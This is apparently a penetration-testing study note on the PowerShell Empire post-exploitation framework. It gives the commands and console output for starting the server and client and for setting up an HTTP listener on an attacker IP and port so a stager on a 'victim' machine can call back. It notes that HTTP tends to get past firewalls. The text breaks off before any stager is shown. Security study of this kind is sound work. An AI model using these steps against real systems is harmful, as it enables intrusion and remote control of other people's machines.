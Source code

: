 # PowerShell Empire

A post-exploitation framework which is useful once foothold is obtained.

### Stating up PSempire

* Setup a server

`sudo powershell-empire server`

Server manages all requests and can be understood as a multi-player game server

Server address once started can be like `[*] Starting Empire RESTful API on 0.0.0.0:1337`

* Setup a client

Via client attacker uses server to attack victims. Connect to server address show like one above:

```bash

powershell-empire client

#in the psempire shell connect to local host or other ip

(Empire) > connect -c localhost

[*] Connected to localhost

```

### Connecting to Victim

* To connect to victim it is necessary to setup a `listener` and a `stager`
* listener is going to wait on you attacker host for the stager, which is on victim host, to connect

#### Setup a Listener

```bash
#lsit listeners
(Empire) > listeners

#none right now
┌Listeners List──────┬───────────────────┬────────────┬─────────┐
│ ID │ Name │ Module │ Listener Category │ Created At │ Enabled │
└────┴──────┴────────┴───────────────────┴────────────┴─────────┘

#available listeners
(Empire: listeners) > uselistener

#press TAB after uselistener and get a list of possible listeners
(Empire: listeners) > uselistener
                                   dbx             
                                   http            
                                   http_com        
                                   http_foreign    
                                   http_hop        
                                   http_malleable  
                                   onedrive        
                                   redirector      

#http listener is always a good choice since not blocked mostly by FWs

(Empire: listeners) > uselistener http

 Author       @harmj0y                                                              
 Description  Starts a http[s] listener (PowerShell or Python) that uses a GET/POST                                                  
```

Now like with Metasploit set the attacker listener IP and port

```bash

(Empire: uselistener/http) > set Host 192.168.115.111
[*] Set Host to 192.168.119.158
(Empire: uselistener/http) > set Port 443
[*] Set Port to 443

#execute and enjoy

(Empire: uselistener/http) > execute
[+] Listener http successfully started

```

#### Setup a stager

Now somehow we need to connect to a victim. There are two ways of doing it:

1. bind: we connect to a victim
2. reverse: victim connects to us

Both of those ways need a stager that must be transferred to victim and activated preferrably with root or SYSTEM privileges.